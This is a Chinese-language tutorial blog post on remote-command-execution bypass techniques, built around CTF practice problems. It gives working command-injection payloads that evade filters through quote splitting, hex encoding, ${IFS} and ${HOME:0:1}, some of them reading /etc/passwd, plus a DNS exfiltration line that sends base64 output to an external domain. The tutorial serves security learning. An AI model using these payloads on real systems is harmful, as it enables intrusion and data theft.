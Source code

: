 +++
author = "Lulaide"
title = "RCE 常见类型及绕过"
date = "2025-03-23"
description = "RCE常见攻击点和利用方法"
tags = [
    "渗透",
    "Linux"
]
categories = ["教程&文档"]
image = "image.png"
+++
# RCE 常见类型及绕过
![](image.png)
## 命令注入（Command Injection）
常见命令连接词:
- `;` (分号): 允许您按顺序执行多个命令。
- `&&` (与): 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `||` (或): 仅当第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&` (后台执行): 在后台执行命令，允许用户继续使用 shell。
- `|` (管道): 将第一个命令的输出作为第二个命令的输入。
常见 Shell 特殊符号:
- `&` : 
    - 1. 在后台执行命令，允许用户继续使用 shell。
    - 2. 特殊文件描述符，如 `&1` 标准输出。
    - 3. `&&` 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `$` : 
    - 1. 变量替换,例如 `echo $HOME`
    - 2. 算术扩展 `echo $((1+2))`
    - 3. 命令替换 `echo $(cat flag)`
    - 4. `${}` 进行高级的参数扩展，如字符串截取、默认值、模式替换等
	提供默认值：`${var:-default}`
	字符串长度：`${#var}`
	子串截取：`${var:offset:length}`

- `` ` `` (反引号): 执行命令并将输出作为结果，例如
```bash
echo `date`
```
> 反引号和`$(cmd)`都能进行命令替换，shell先会执行和反引号内或括号内的命令，再执行外层命令
### 命令分隔符绕过
- `%0a`
- `%0d`
### cat 绕过(命令绕过)
- 使用 `echo` 读取
```bash
echo $(<filename)
```
- `base64`
```
base64 flag | base64 -d
```

例题
![](image-4.png)
Payload:
```bash
0.0.0.0 && base64 flag_11213284764042.php | base64 -d
```
![](image-5.png)
### 命令关键词绕过
#### 使用符号分割命令
```bash
c"a"t f"la"g
ca""t fl""ag
w\ho\am\i
who$()ami
who$@ami
```
#### 十六进制编码绕过字符过滤
快速转换:
```bash
echo -n "/etc/passwd" | xxd -p | sed 's/../\\x&/g'
``` 
- `echo -e`绕过
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
示例
```bash
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```
```bash
$(echo -e "\x63\x61\x74") flag
```
- `xxd -r -ps`绕过
```bash
$(xxd -r -ps <(echo 636174)) flag
```

### 斜线绕过
- `${HOME:0:1}`
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
- `tr` 字符集替换
```bash
echo . | tr '!-0' '"-1'
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
例题
![](image-6.png)
Payload:
```bash
0.0.0.0 && cat flag_is_here${HOME:0:1}flag_327162425030231.php
```
![](image-7.png)
### 空格绕过
- 使用 `${IFS}`
- 使用 `<` 输入重定向
- `{cat,/etc/passwd}`
- `ls%09-al%09/home` 制表符ASCII码
- 如果能回现报错，就可以使用`$(<filename)`
![](image-3.png)

例题
![](image-1.png)
Payload: 
```bash
0.0.0.0&&cat${IFS}flag_24157125720131.php
```
```bash
0.0.0.0&&cat<flag_24157125720131.php
```
![](image-2.png)

### 综合命令注入练习
![](image-8.png)
先把 `ls` 的结果保存在文件中
```bash
$(ls>1)
```
读取 `ls` 的输出
```bash
$(base64${IFS}1).lulaide.com
```
![](image-9.png)
![](image-10.png)
读取目录下的内容
```bash
$(ls${IFS}fla""g_is_here>1)
$(base64${IFS}1).lulaide.com
```
![](image-11.png)
直接读取 `flag`
```bash
$(base64${IFS}f""lag_is_here${HOME:0:1}fl""ag_123591964811506.php).lulaide.com
```
![](image-12.png)
![](image-13.png)
## 命令行参数注入
命令行的一些概念:
- 选项
通常以短横线（-）或双横线（--）开头，如 -l、--help。
- 参数
不带 - 前缀的字符串，或者也包含在选项中作为参数（例如 -f filename 中的 filename）。
## 代码注入（Code Injection）

## 服务器端模板注入（SSTI）

## 反序列化漏洞

## 文件包含漏洞（LFI/RFI）